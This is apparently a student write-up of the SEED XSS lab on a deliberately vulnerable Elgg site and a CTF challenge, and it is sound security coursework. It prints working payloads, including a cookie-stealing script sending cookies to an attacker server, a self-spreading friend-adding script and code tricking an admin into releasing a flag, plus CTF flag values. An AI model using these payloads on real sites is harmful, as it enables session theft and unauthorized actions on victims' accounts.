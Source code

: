 ## Cross-Site Scripting Attack Lab

### Task 1
In this task we're asked to inject javascript code into a user's profile such that when that profile is loaded, an alert popup will show up with the message "XSS". <br>
In order to do so, firstly, we need to login into an user account. We chose Alice.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049736125780070481/image.png">

Then, we changed her Brief Description section to contain our javascript code: `<script>alert('XSS');</script>`

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049741154406633533/image.png">

Upon submiting the edit form, we're met with the expected popup, since the page reloads. Because the privacy of Alice's Brief Description section is set to public, any user that loads her profile should be met with the exact same popup.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049741154767347732/image.png">

### Task 2

With a small change to our code, we can display the user's cookies, instead of a random message: `<script>alert(document.cookie);</script>`

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049742743523578026/image.png">

Yet again, any user that loads this page will be met with the popup.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049742660442796092/image.png">

### Task 3

Because displaying the cookies to the user is not useful to us (it's beyond useless, since it actually warns the user that their cookies are under attack), we want to silently retrieve them. <br>
This can be achieved with a small piece of javascript code that creates a new `<img>` html element with its source pointing to a server we control, created using netcat: `<script>document.write(’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’ >’);</script>` <br>
When the browser tries to retrieve this image, it will send a GET request to our server with the cookie information attached.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049744046450548736/image.png">

As you can see, the browser sent the GET request, and it got to our server.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049744563364954122/image.png">

### Task 4

Our objective is to create and inject a piece of javascript code onto the website that will add Samy as a friend to anyone that loads Alice's profile. <br>
In order to do so, we need to know the request's structure. <br>
We achieved this by logging into Boby's account and adding Samy as a friend, all while having the Firefox's dev tools open recording all the HTTP requests sent. 

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049749147097497670/image.png">

Now that we know what action is invoked and what arguments are passed, we can create the script we'll be injecting in Alice's account description. <br>
The request receives as arguments some sort of user identifier passed in the "friend" field, in Samy's case it's 59, and two Elgg fields: __elgg_ts and __elgg_token. <br>
With this in mind, using the given code, we can easily build our script and place it into Alice's description.

```html
<script type="text/javascript">
        window.onload = function () {
                var Ajax=null;
                var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; // ➀
                var token="&__elgg_token="+elgg.security.token.__elgg_token; // ➁

                //Construct the HTTP request to add Samy as a friend.
                var friend="friend=59"; //Samy's friend "code"
                
                var sendurl="http://www.seed-server.com/action/friends/add?"+friend+ts+token+ts+token; 

                //Create and send Ajax request to add friend
                Ajax=new XMLHttpRequest();
                Ajax.open("GET", sendurl, true);
                Ajax.send();
        }
</script>
```

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049751088439509072/image.png">

- Question 1: Explain the purpose of Lines ➀ and ➁, why are they needed?
    - R: The purpose of the lines is to retrieve the information needed for the __elgg_ts and __elgg_token fields from the user's security token, which is unique. This was we can generalize the attack to work on any user that loads the vulnerable page.
- Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
    - R: Yes. Despite Editor mode adding aditional HTML code to our code, rendering the way we're using to inject our worm onto the website useless, we could still use a different method, like the one explained earlier in this lab's tutorial. Assuming the other fields are still present, like the Brief Description field, we could insert a small script tag that redirects to our worm code, in another server.

We know that, before placing our code in Alice's profile, Alice is not friends with Samy.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049751572764172389/image.png">

This changes after reloading the page, confirming that our worm is successful in it's job.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049751331855933451/image.png">
<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049751476592988240/image.png">

Just to make sure, we tested this with an unsuspecting victim, Charlie.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049751788795985942/image.png">
<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049751987354357771/image.png">
<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049752115351928962/image.png">

## Week 10 CTF Challenge
### Challenge 1

Initially, upon loading the website, we're met with a single input field, which automatically made us think of XSS attacks, so, to test this hypothesis, we tried to inject a simple javascript script that would output "teste" to the console.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049766868950458388/image.png">

This form is indeed vulnerable to XSS attacks, confirmed by the output in the console. <br>
(We totally didn't try anything prior to this using the alert() function which didn't leave our browser with a near permanent popup)

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049766984658718810/image.png">

On this new page, that mirrors the admin page with a few changes, we found two disabled buttons and a textbox with our previous input. <br>
We proceeded to analyze the html code of the webpage, trying to find anything we could use to submit the "Give the flag" form, sending an HTTP request to the responsible action. <br>

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049767167308083240/image.png">

Because the action is not visible on the html, we found a workaround, which consisted of injecting javascript code that would enable the "Give the flag" button so that we could press it in order to try and trigger the action.

```html
<script> 
    document.getElementById('giveflag').removeAttribute("disabled");
</script>
```

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049768734316822538/image.png">

This worked, and the button (actually, it's not a button, it's an input with type submit but it essentially works like a button, so we'll keep refering to it as one) was now clickable.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049769572653338674/image.png">

A new problem arose, when we clicked it, because we got met by a 403 Forbidden access page, meaning whoever built the website put in place policies preventing users from submiting HTTP requests only admins should be able to. 

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049769590974066698/image.png">

This is not so bad because now we know what the POST HTTP request is, so all we need to do is find a way to have the admin submit the request unwillingly. <br>
In order to do so, we put together a bit of js code that would build and send this POST request and injected it onto the justification textbox so that when the admin loaded the page it would run and, hopefully, authorize the request.

```html
<script type="text/javascript">
        window.onload = function () {
                var Ajax=null;
                
		        //Current URL can be sent via POST
                var sendurl= window.location.href";

                //Create and send Ajax request to add friend
                Ajax=new XMLHttpRequest();
                Ajax.open("POST", sendurl, true);
                Ajax.send();
        }
</script>
```

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049782278873694238/image.png">

Turns out this actually works, and we got presented with the flag (flag{cc4b37d6a3dc659d16c8e714a21b41eb}).

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049774828267253870/image.png">

But we knew this wasn't the only method there was to get the flag. <br>
Since it's stated that the admin always clicks the "Mark request as read" button, we wanted to try and make it so that this button, instead of submiting it's own form, would submit the "Give the flag" form. <br>
This is very easily done with some basic javascript knowledge: all we have to do is change the onclick function of this button and make it click the other button, submiting the other form. To make sure the "Mark request as read" form is not submited, we disable the submit feature of this button by returning false on it's onclick function.

 ```html
<script>document.getElementById('markAsRead').onclick=function() {document.getElementById('giveflag').click(); return false;}</script>
 ```

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049774753457651772/image.png">

Like expected, this works, and we get the same flag as we did before.

<img src="https://cdn.discordapp.com/attachments/799728570825179213/1049774828267253870/image.png">


Note: while testing the methods documented here at a later time, for writting purposes, we found that the flag changed from flag{cc4b37d6a3dc659d16c8e714a21b41eb} to flag{0272a7849282b7ee095c5ee1ede48692}. We're not sure as to why this happened, but our best guess is that this is an anti-cheating feature that checks when a flag is submited and changes it, making it subjectively harder to copy.

### Challenge 2

